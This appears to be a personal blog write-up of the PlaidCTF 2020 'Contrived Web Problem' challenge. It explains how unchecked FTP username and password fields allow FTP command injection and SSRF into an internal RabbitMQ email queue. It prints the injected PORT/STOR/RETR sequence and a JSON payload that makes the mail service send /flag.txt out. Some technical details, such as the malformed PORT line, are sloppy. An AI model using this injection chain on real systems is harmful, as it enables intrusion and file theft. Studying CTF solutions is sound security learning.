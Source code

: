 ```yaml
---
title: "Plaidctf 2020: Contrived Web Problem"
date: 2020-04-28T00:48:12-06:00
draft: false
author: "JamVie"
tags: ["writeups", "web", "FTP"]
images: ["images/CWP01.png"]
---
```



This was a CTF I unfortunately didn't have the time for, as I was busy doing finals in April :(. My team let me know about this cool and unique problem, and I'm glad they did! 
<!--more-->

This was a journey in understanding internet protocols that deepened my knowledge of them to completely new levels, so I'm really grateful I got the chance to try this problem out - even though I tried it after the CTF ended :P


Let's Begin!
----

This problem really holds up to its name. The website is simple - you have the option to login or register as a new user. 

{{< image src="/images/CWP01.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Uniquely, we are given the source code for the problem. The source code shows us that the program has 6 services:

```
\services
    \api 
    \email (email server, sends emails based on rabbitmq queue)
    \ftp
    \postgres (database)
    \rabbit (email queue, will send requests to the email server)
    \server
...
```

Checking out the code, I see that ```flag.txt``` is actually mentioned. It's in the services dockerfile, which is only used by ```api```, ```email``` and ```server``` services. So, the vulnerability probably is within one of these services. 

I checked out ```api``` first - and I see that the only protocols that it allows are HTTP, HTTPS, and FTP. Aside from the FTP protocol, the other 2 are pretty standard protocols to see in APIs. 

Looking at ```email``` next, which uses [nodemailer](https://nodemailer.com/about/). I'm not too familiar with it, so I check out its documentation: 

{{< image src="/images/CWP02.png" alt="Login" position="center" style="border-radius: 8px;" >}}

This seems like a good loophole to exploit - we just need to specify the filepath and nodemailer will send an email with an attachment of whatever file we specified by the filepath, so we can exploit nodemailer's same origin policy. Since the rabbitmq server is the email server's queue, we will send a rogue email request into rabbitmq's queue to serve up to the email server, which will tell it to email us the flag!

Now the hard part - how _do we_ ask the server? How do we send a request to the server to send us the email with the flag as an attachment? 

I spent a long time trying to figure out how to send a rogue request to the rabbitmq server that will send us the email we want. I spent hours just browsing through the source code, not really paying attention... 

Until I came across this piece of code in the ```api/index.ts``` file: 

```js
    app.get("/image", async (req, res) => {
        let { url } = req.query;
        if (typeof url !== "string") {
            return res.status(500).send("Bad body");
        }

        let parsed = new URL(url);

        let image: Buffer;
        if (parsed.protocol === "http:" || parsed.protocol === "https:") {
            const imageReq = await fetch(parsed.toString(), { method: "GET" });
            image = await (imageReq as any).buffer();
        } 
        
         //THIS PART HERE!
        else if (parsed.protocol === "ftp:") {
            let username = decodeURIComponent(parsed.username);
            let password = decodeURIComponent(parsed.password);
            let filename = decodeURIComponent(parsed.pathname);
            let ftpClient = await connectFtp({
                host: parsed.hostname,
                port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
                user: username !== "" ? username : undefined,
                password: password !== "" ? password : undefined,
            });
            image = await ftpClient.get(filename);
        } else {
            return res.status(500).send("Bad image url");
        }
                if (!isPNG(image)) {
            return res.status(500).send("Bad image (not a png)");
        }

        res.type(".png").status(200).send(image);
    })

    app.listen("4101");

```
Image: the profile picture we would upload when we register as a new user. For HTTP and HTTPS protocols it's a simple GET method, not much to do there. But for FTP? 
It asks for the username, password and filename, _unchecked_, then asynchronously asks the server for the image that matches the filename that we specified. 
FTP is a text-based protocol, and since username and password fields are passed to it unchecked, we could definitely inject some protocol commands, custom data (something like ```{to: "email@example.com", attachments:[{path:"/flag.txt"}]}```), and make FTP send requests that were never intended to be sent. 

Here's something I learned in my internet computing class about the FTP protocol: FTP connections have two modes : "Active" and "Passive". I'll give a heavily truncated explanation of the two modes (if you're interested in learning more about the FTP protocol, check out the [RFC specifications on it](https://tools.ietf.org/html/rfc959)):

-- In active mode, the client will specify the IP of the destination to the server. The FTP server will then send the files to the specified IP. The client establishes the communication channel, tells the server the address to send data to, and the server will then open a data channel to the address. 

-- In passive mode, the server tells the client where the files will be sent to. In this case, the client will then have to open the data channel as well to get the files. By default, applications running FTP will run on passive mode.


The difference in active and passive really lies in the ```RETR``` command in the FTP specifications: active-mode ```RETR``` makes the client stipulate the destination IP, and passive-mode ```RETR``` makes the server stipulate it.

So for this challenge, we can make the FTP client specify the rabbitmq server as the destination IP, and use ```RETR``` to make the FTP server send data to rabbitmq. 

And since the FTP protocol for this application handles for the uploading and retrieval of profile pictures, we just need to hide our payload (which would ask the rabbitmq server to send an email with the flag.txt file in it to us) in our profile picture, specify FTP to operate on active (using ```PORT``` command), and use the ```RETR``` command to let the FTP server send our payload to the rabbitmq server! 

Okay, I've explained alot here. This is the attack plan:

- Craft a payload that will tell the rabbitmq email queue server to email to us, with flag.txt as the attachment. Hide it in the profile picture (make sure its a png). Upload whatever picture it is as our profile picture. 

Here's the payload I crafted (a classic SSRF):
```
{"to":"yourEmailGoesHere@example.com","text":"Hello would you like a flag","attachments":[{"path":"/flag.txt"}]}
```

- Through the username field, input several FTP commands to make the FTP server send our payload to the rabbitmq server. Here, I have made a file called "payload.txt" that has the post request data with the payload in it:

```
PASS blah
PORT 255,255,255,255,80
STOR payload.txt
PORT 172,32,56,72,0, 15672      <-----rabbitmq server and port
RETR payload.txt
```

- Hopefully, the rabbitmq server will send us an email!

```
PCTF{not_that_contrived_i_guess}
```

NOTE: Doing it this way means the FTP server was establishing a connection with the rabbitmq one. However, multiple times I tried this the TCP connection would close immediately after I send my request! I worked around this by sending in a bunch of garbage in my payload.txt file alongside the actual payload, so that at least the TCP connection would have to spend time sending all of that data(think: an unending stream of AAAAAs), and persist long enough for the reponse to be recieved. 

This was a fun way to learn how FTP servers work and how protocols of the internet operate! I'm upset that I didn't have the time to participate when it happened, but nonetheless this was a great challenge :)

Jam